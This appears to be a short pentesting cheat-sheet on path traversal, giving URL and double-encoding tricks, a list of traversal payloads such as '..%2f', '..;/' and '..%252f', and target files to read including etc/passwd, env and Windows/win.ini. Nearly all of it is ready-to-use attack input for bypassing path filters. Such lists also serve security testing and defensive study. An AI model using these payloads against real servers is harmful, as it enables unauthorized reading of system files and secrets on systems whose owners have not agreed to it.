 +++
title = 'Path Transversal'
+++

| Char | Encoded |
| --- | --- |
| space | %20 |
| / | %2f |
| \ | %5c |
| % | %25 |
| . | %2e |
| f | %66 |
| e | %65 |

## Tricks

```
%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252e -> %2e -> .
```

## Payloads

```
..;/
..%5c
..%2f
../
..\
..;\
..%252f
%2e%2e%252f
%252%66.%252%65
/
//
///
////
/////
//////
///////
////////
/////////
//////////
```

## Files

env

etc/passwd

Windows/win.ini


## Resources

| URL |
| --- |
| https://github.com/GrrrDog/weird_proxies |
